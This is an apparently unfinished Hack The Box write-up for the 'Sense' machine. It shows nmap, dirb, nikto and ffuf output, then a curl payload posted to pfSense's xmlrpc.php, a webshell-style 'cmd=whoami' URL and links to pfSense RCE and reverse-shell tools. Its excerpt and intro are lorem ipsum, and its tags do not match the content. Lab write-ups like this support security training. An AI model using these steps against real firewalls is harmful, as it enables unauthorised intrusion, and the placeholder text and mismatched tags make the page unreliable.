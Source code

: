 ```yaml
---
layout: single
title: Sense - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-sense/sense_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-sense/sense_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/sense]# nmap -Pn -n -sCV 10.10.10.60 --open                                                                        (master✱)
    PORT    STATE SERVICE    VERSION
    80/tcp  open  http       lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Did not follow redirect to https://10.10.10.60/
    443/tcp open  ssl/https?
    | ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
    | Not valid before: 2017-10-14T19:21:35
    |_Not valid after:  2023-04-06T19:21:35
    |_ssl-date: TLS randomness does not represent time

  DIRB:
  ==> DIRECTORY: https://10.10.10.60/classes/
  ==> DIRECTORY: https://10.10.10.60/css/
  + https://10.10.10.60/favicon.ico (CODE:200|SIZE:1406)
  ==> DIRECTORY: https://10.10.10.60/includes/
  + https://10.10.10.60/index.html (CODE:200|SIZE:329)
  + https://10.10.10.60/index.php (CODE:200|SIZE:6690)
  ==> DIRECTORY: https://10.10.10.60/installer/
  ==> DIRECTORY: https://10.10.10.60/javascript/
  ==> DIRECTORY: https://10.10.10.60/themes/
  ==> DIRECTORY: https://10.10.10.60/tree/
  ==> DIRECTORY: https://10.10.10.60/widgets/
  + https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384)

  NIKTO:
  + Cookie cookie_test created without the secure flag
  + Cookie cookie_test created without the httponly flag
  + Multiple index files found: /index.php, /index.html
  + Hostname '10.10.10.60' does not match certificate's names: Common
  + Allowed HTTP Methods: OPTIONS, GET, HEAD, POST


2. Check the pages to see what we have to work with;

  https://10.10.10.60/index.php is a login page to a pfsense firewall.
  https://10.10.10.60/xmlrpc.php is used by pfsense, and is vital from privilege escallation.

  https://10.10.10.60/tree/ is running SilverStripe Tree Control: v0.1, 30 Oct 2005. Sounds old and probably have some vulns.

  We are unable to do anything with the info we've found. So take one step back and start to fuzz.


3. Fuzzing!

    root@nidus:/srv/pub-share# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u https://sense.htb/FUZZ.txt
      --- snip ---
      changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]

    [root:/git/htb/sense]# curl -k https://sense.htb/changelog.txt                                                                  (master✱)
      # Security Changelog

      ### Issue
      There was a failure in updating the firewall. Manual patching is therefore required

      ### Mitigated
      2 of 3 vulnerabilities have been patched.

      ### Timeline
      The remaining patches will be installed during the next maintenance window#

  The unpatched vuln they mention above, is hopefully the xmlrpc RCE. However this doesn't really help right now - so continue to fuzz.




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


https://github.com/chadillac/pfsense_xmlrpc_backdoor
[root:/git/htb/sense]# curl -k --data @pfsense_exec https://10.10.10.60/xmlrpc.php
https://10.10.10.60/ignore.php?cmd=whoami

https://github.com/spencerdodd/pfsense-code-exec    <-- full RCE rev shell.

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
